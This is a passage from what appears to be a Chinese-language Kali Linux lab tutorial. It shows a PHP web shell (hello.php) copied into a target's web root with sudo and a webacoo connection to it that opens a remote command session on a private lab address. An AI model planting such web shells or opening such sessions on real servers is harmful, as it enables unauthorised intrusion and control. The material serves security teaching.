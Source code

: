 ![图片描述](../imgs/1480993732499.png-wm.png)

将木马文件，复制到网站的根目录下，这里注意，要加 `sudo` 权限：

```
# 将木马文件，复制到目标主机的网站目录下
sudo cp /tmp/hello.php /var/www/html/
```
### 4.4 感染目标主机并创建会话

在将木马程序上传至目标主机后，在 Kali Linux 的终端中，输入如下命令创建会话通道：

```
# 连接目标主机，建立会话
webacoo -t -u http://192.168.122.1/hello.php
```

成功之后，命令行前缀发生了变化，如下图所示：

![图片描述](../imgs/1481014707333.png-wm.png)

**注意：成功后终端前缀 `root@Kali:` 变成了 `webacoo$`**
